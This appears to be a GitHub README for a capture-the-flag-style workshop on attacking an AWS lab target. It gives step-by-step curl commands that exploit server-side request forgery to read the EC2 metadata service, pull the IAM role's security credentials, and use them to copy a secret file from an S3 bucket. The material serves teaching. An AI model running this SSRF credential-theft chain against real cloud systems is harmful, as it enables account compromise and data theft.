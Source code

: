 # The biggest Hack of our lives 🤑🤑🤑:

## Our goal:

![Our goal](./images/Picture%201.png)

## Execution:

### Step 1:

![Hiding our identity](./images/Picture%202.png)

<details>
  <summary>Answer</summary>
  
  ✅ VPN

  ✅ TOR

  Let's try sending a request - here is what we can do:

  ```bash
    export IP=XXXXX
    curl $IP
  ```

</details>




### Step 2:

EC2 instances connect to metadata services to get information about themselves such as:

- what region am I located in?
- what role is attaced to this instance?

![EC2 to Metadata Service](./images/Picture%203.png)

#### How AWS Works:

An EC2 has a role based policy it can use to access an s3 bucket. However, it hasn't been authenticated to use the role yet!

![EC2 to s3](./images/Picture%204.png)

It asks the EC2 metadata service to get the credentials of the role in order to access it.

![EC2 to metadata](./images/Picture%205.png)

Then we can get access to the bucket:

![EC2 to s3 success](./images/Picture%206.png)

What are some ways we can take advantage of this to access the bucket ourselves?

<details>
  <summary>Answer</summary>
  
  ✅ Server Side Request Forgery

  Let's try sending a request - here is what we can do:

Get the metadata:

  ```bash
    curl "http://$IP/?url=http://169.254.169.254/latest/meta-data/"

  ```

Peek into the IAM folder:

```bash
curl "http://$IP/?url=http://169.254.169.254/latest/meta-data/iam/"
```

ooooh.... security credentials:

```bash
curl "http://$IP/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

```bash
curl "http://$IP/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/VulnV1-webServerRole-EuxRuT802MC4"
```


</details>

### Step 3: Let's configure our AWS client:

```bash
export AWS_ACCESS_KEY_ID="..."
```

```bash
export AWS_SECRET_ACCESS_KEY="..."
```

```bash
export AWS_SESSION_TOKEN="..."
```

Now let's see if we have access to s3 buckets...

```
aws ls s3
```


<details>
  <summary>Gold Mine??</summary>

Let's copy the file!!
  
  ```bash
aws s3 cp s3://vulnv1-databucket-x902jzasnmdo/secret-file.txt .
```

</details>